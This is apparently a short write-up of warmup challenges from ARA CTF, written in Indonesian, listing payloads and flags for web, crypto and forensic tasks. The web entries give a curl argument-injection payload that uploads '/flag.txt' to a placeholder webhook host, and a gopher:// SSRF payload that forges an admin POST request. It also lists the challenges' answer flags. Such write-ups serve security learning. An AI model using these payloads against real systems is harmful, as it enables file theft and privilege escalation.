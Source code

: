 # ARA CTF. coba2 aja

# Berikut adalah soal warmup nya hehe.

# Testing Website

**Category** : Web

`-F password=@/flag.txt http://yourwebhook/`

`ARA5{cuRl_4rGuM3Nt_1nJ3ct10n}`

# Into to Curl

**Category** : Web

`gopher://flag:80/_POST%2520/%2520HTTP/1.1%250D%250AHost:flag:80%250D%250AContent-Type:application/x-www-form-urlencoded%250D%250AContent-Length:13%250D%250A%250D%250Ais_admin=true`

`ARA5{aw3s0me!_h0w_d1d_y0u_do_th4t??}`

# roti3

**Category** : Crypto

`NEN5{4e!0_Y1x3f_13_c!rp35_0s_Oe34q}`

rot cipher:
`ARA5{4r!0_L1k3s_13_p!ec35_0f_Br34d}`

# Arlo

**Category** : Forensic

https://aperisolve.com/01a2b717e414902514fe4ae7e4b5626d

`ARA5{W0uld_y0u_!0s3_n4hHh_!'d_W1n}`
